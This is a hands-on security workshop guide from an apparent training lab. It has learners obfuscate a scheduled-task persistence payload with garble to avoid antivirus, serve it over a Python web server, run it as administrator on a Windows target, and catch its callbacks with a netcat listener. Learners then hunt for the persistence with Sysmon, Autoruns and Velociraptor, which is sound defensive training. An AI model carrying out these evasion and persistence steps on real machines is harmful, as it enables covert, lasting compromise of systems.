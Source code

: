 # Scheduled Tasks Workshop Instructions


## Create the payload.

1. In the Attack Desktop, open a terminal, navigate to the  ironcat_attack/c2/ichttpc2 folder.
`cd /home/pslearner/workshop/ironcat_attack/persistence/scheduled_tasks`

2. Notice the already compiled client.exe file.  Check it's md5 hash using md5sum.
`md5sum icschtasks.exe`

3. Now use garble to generate a new version with obfuscation.
`garble -tiny -literals -seed=random build -ldflags='-s -w' icschtasks.go`

4. Time to move the payload over to the Windows Target. Host the file using python http simple server.
`python3 -m http.server`

5. Use the drop down in the top left to connect to the Windows Target device.

6. Open a firefox browser window and browse to http:172.32.14.10:8000

7. Click the client folder, and then again click **icschtasks.go** to download it to the device.

8. If there are warnings from smart screen, acknoledge them and choose "keep anyway"
Note: this is not the same service as windows defender, it is an artifact of us using the browser to move it over, not the payload being caught by anti-virus.

## Setup Listener And Run Persistence

The payload will generate persistence with a scheduled task and call back out to prove it. But you have to be listening.

1. On the Attacker Desktop, open a new terminal window.
2. Run a net cat listnener on port 666.
`nc -lvnp 666`
3. Switch back to the Windows Target.
4. Use the desktop icon for CMD. Right click, and choose 'Run As Administrator'

5. Change directory to the downloads folder. (This one is a little tricky.)
`cd C:\Users\pslearner.PS-WIN-1\Downloads`

6. Run the payload.
`icschtasks.exe`
Note: Unless something has changed significantly for the worse for my workshop, you should have ZERO notifications from anti-virus.

7. Swap back to your Attack Desktop, inpsect the terminal where you ran the server executable. You will see connections from the persistence after about a minute or so..  It will attempt again every minute or so, you will need to restart the netcat listener to catch it a gain. No interaction is required.

This is clearly simulated, popups would not normally happen, and you wouldn't normally have this much information about what caused the persistence.  Now you should use the tools on the device to track down what exactly is going on here. 

Some tools that may be helpful for this are:
- Sysmon Logs in Windows Event Viewer or with powershell
- Hunt for persistence with Autoruns
- Use velociraptor queires for persistence

Questions you want to answer here include:

What exactly did the executable do?

What are names of files, where are they, and what do they do.

What is the name of the scheduled task, and how could you detect it as malicous in an enterprise environment.


